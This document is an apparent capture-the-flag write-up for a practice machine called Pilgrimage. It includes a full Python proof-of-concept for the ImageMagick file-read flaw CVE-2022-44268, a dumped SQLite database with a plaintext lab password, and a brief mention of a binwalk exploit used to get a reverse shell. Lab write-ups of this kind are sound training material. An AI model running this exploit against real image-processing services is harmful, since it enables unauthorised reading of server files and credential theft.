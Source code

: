 dumped git file repo with git-dumper

arb file read vuln

grabbed sqlite db with python script

https://github.com/kljunowsky/CVE-2022-44268

Upload poisoned file, got sqlite db with: `python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/65bd760f22482.png`


modified script below:
```python
import argparse
import requests
import io
from PIL import Image, PngImagePlugin

def main():
    if args.url:
        headers = {'User-Agent': 'Shift Security Consulting https://shiftsecurityconsulting.com - CVE-2022-44268'}
        response = requests.get(args.url)
        img = Image.open(io.BytesIO(response.content))

        # Extract the raw profile type from the image metadata
        raw_profile_type = img.info.get('Raw profile type', '').split("\n")[3:]
        raw_profile_type_stipped = "\n".join(raw_profile_type)

        # Decrypt the raw profile type from hex format
        decrypted_profile_type = bytes.fromhex(raw_profile_type_stipped)

        with open("output.sqlite", "wb+") as out:
            out.write(decrypted_profile_type)

        # Print the decrypted profile type
        print(decrypted_profile_type)
    
    elif args.image:
        # Open the image file
        img = Image.open(args.image)

        # Create a PngInfo object and add the text
        info = PngImagePlugin.PngInfo()
        info.add_text('profile', args.file_to_read, zip=False)

        # Save the modified image to a new file
        img.save(args.output, 'PNG', pnginfo=info)

    else:
        print('Proof of Concept Exploit for CVE-2022-44268 by Milan Jovic - https://shiftsecurityconsulting.com\nUse -h for help')
    



if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Proof of Concept Exploit for CVE-2022-44268 by Milan Jovic - https://shiftsecurityconsulting.com')
    parser.add_argument('--url', help='The URL of the uploaded PNG image')
    parser.add_argument('--image', help='Input PNG file')
    parser.add_argument('--file-to-read', help='File to read')
    parser.add_argument('--output', help='Output PNG file')
    args = parser.parse_args()
    if not vars(args):
        parser.print_help()
    main()

```

sqlite3 output.sqlite
SQLite version 3.44.2 2023-11-24 11:41:44
Enter ".help" for usage hints.
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL);
INSERT INTO users VALUES('emily','abigchonkyboi123');
CREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL);
COMMIT;

/usr/bin/gettext.sh
/usr/sbin/malwarescan.sh

malwarescan uses binwalk to parse files, exploited a vuln in it to get a reverse shell.

revshells.com

https://github.com/adhikara13/CVE-2022-4510-WalkingPath

scp's malicious image over to box to /var/www/pilgrimage.htb/shrunk/

